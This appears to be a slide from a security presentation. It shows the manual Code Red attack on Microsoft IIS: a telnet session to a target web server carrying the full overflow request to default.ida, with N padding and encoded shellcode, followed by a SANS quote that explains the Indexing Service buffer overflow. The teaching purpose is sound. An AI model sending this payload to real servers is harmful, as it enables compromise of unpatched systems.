

# Manual Code Red Exploit
C:\ telnet www.targetsystem.com 80
GET/default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucb
d3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u
9090%u8190%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000%u00=a HTTP/1.0
“The vulnerability lies within the code that allows a Web server to interact with Microsoft Indexing Service functionality, which is installed by default on all versions of IIS. The problem lies in the fact that the .ida (Indexing Service) ISAPI filter does not perform proper "bounds checking" on user inputted buffers and therefore is susceptible to a buffer overflow attack.”

-sans.org